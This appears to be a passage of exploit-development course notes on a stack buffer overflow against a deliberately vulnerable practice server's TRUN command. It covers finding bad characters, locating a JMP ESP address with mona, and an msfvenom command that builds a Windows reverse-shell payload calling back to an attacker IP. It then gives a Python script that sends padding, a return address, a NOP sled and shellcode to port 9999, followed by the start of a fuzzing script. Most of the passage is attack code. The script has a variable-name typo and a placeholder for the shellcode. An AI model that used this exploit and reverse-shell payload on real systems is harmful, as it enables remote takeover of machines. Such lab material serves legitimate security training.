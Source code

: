 ```python
except:
	print "Error connecting to server"
	sys.exit()
```

## Finding bad characters

https://github.com/cytopia/badchars

## Finding the right module

- Mona modules
-  nasm_shell metasploit module
-  !mona find -s "\xff\xe4" -m essfunc.dll
-  x86 has reverse order

## Generating shellcode and gaining root

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.17.3 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`

```python

#!/usr/bin/python
import sys, socket

overflow=(

INSERT msfvenom code here
)

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + pverflow

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('192.168.17.12', 9999))
	s.send(('TRUN /.:/' + shellcode))
	s.close()

except:
	print "Error connecting to server"
	sys.exit()
```

## Exploit development using Python3 and Mona

**Update to the course**

### Fuzzing Script
```python
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.4.104',9999))

		payload = "TRUN /.:/" + buffer
```